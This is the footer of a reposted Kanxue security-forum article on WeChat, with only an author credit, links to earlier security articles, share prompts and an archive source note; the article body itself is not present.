**看雪ID：yumoqaq**  
  
https://bbs.pediy.com/user-home-930159.htm  
  
*本文由看雪论坛 yumoqaq 原创，转载请注明来自看雪社区  
  
  
[](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458451302&idx=3&sn=dc90dde97abdd69f7f5bb8b48c3d71e7&chksm=b18fcdec86f844fae3542e66ae2dfe38298ede7e6e5e498abef41c425a4415aa5228e4a456d7&scene=21#wechat_redirect)  
  
  
  
**#****往期推荐**  
  
1.[Android APP漏洞之战——调试与反调试详解](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458451170&idx=1&sn=268d133649c845d8f062866cf94e7c95&chksm=b18fcc6886f8457e2daaa55cdbdd6c39047ae997da3454fa35b8e8ee07da3b450cbae5b32bda&scene=21#wechat_redirect)  
  
  
2.[Fuzzm: 针对WebAssembly内存错误的模糊测试](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458451152&idx=2&sn=4abbf7a643b93027529e12442608aca2&chksm=b18fcc5a86f8454cb6051aab6a45751ad736285e3f46e92436edb2b963b46bee27da5e0c9922&scene=21#wechat_redirect)  
  
  
3.[0rays战队2021圣诞校内招新赛题解](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458449944&idx=2&sn=1c51b842fd748e55cbe2cbf80f8371f2&chksm=b18fc89286f84184d536aaa1cad66bce9fb3799ef344b743ab5b3b02e89f2336ab6977cfbe2c&scene=21#wechat_redirect)  
  
  
4.[2022腾讯游戏安全初赛一题解析](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458449720&idx=1&sn=d3e33c568fee745ef1ad6334443c2eac&chksm=b18fc7b286f84ea479599f079963ab9b9e199717629c8d0636cd87341b552823a01f995a18c3&scene=21#wechat_redirect)  
  
  
5.[一文读懂PE文件签名并手工验证签名有效性](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458449573&idx=1&sn=cfab5d8030041ed7d6d4ed0eb84619fc&chksm=b18fc62f86f84f3901d3bfa087c6b0ceb1882ad1682d155e01107cc4b0d09c8359445c624a84&scene=21#wechat_redirect)  
  
  
6.[CNVD-2018-01084 漏洞复现报告（service.cgi 远程命令执行漏洞）](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458446970&idx=1&sn=fe5fd9a5dd5b284114eec6b391c0ac1a&chksm=b18fdcf086f855e6357dc286aabe7a97b9cb48214018c7f316f59e2a95c2ce982efe6167c773&scene=21#wechat_redirect)  
****  
  
  
  
  
  
  
  
  
  
  
**球分享**  
  
  
  
**球点赞**  
  
  
  
**球在看**  
  
  
  
  
  
点击“阅读原文”，了解更多！  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
